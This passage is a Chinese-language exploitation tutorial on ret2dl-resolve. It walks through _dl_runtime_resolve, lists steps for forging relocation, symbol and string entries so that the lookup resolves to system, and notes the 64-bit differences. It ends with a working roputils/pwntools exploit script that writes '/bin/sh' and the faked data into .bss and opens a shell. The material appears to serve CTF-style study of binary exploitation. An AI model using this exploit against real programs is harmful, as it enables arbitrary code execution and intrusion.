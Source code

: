 具体_dl_runtime_resolve函数的具体执行过程如下：

1. 计算函数的relocentry。

   Elf32_Rel* reloc = JMPREL + reloc_offset;

2. 计算函数的symtabentry。

   Elf32_Sym* sym = &SYMTAB[ ELF32_R_SYM (reloc->r_info) ];

3. securitycheck

   assert(ELF32_R_TYPE(reloc->r_info) == R_386_JMP_SLOT);

4. 计算函数名称在dynstr表中的偏移。

   name= STRTAB + sym->st_name;

5. 函数地址写入相应的项，堆栈调整，执行函数

***Exploit*** 怎么利用？

1. 控制EIP为PLT[0]的地址，只需传递一个index_arg参数
2. 控制index_arg的大小，使reloc的位置落在可控地址内
3. 伪造reloc的内容，使sym落在可控地址内
4. 伪造sym的内容，使name落在可控地址内
5. 伪造name为任意库函数，如system

64位比32位有了些许变化。相关的结构体大小不同，函数参数也变成由寄存器传递而非栈传递。需要注意的是64位还需要泄露link_map的值，目的是将link_map+0x1c8处设为NULL，这样才能绕过相关检测

使用`roputils`

```python
from roputils import *
from pwn import process
from pwn import gdb
from pwn import context
r = process('./main')
context.log_level = 'debug'
r.recv()

rop = ROP('./main')
offset = 112
bss_base = rop.section('.bss')
buf = rop.fill(offset)

buf += rop.call('read', 0, bss_base, 100)
## used to call dl_Resolve()
buf += rop.dl_resolve_call(bss_base + 20, bss_base)
r.send(buf)

buf = rop.string('/bin/sh')
buf += rop.fill(20, buf)
## used to make faking data, such relocation, Symbol, Str
buf += rop.dl_resolve_data(bss_base + 20, 'system')
buf += rop.fill(100, buf)
r.send(buf)
r.interactive()
```
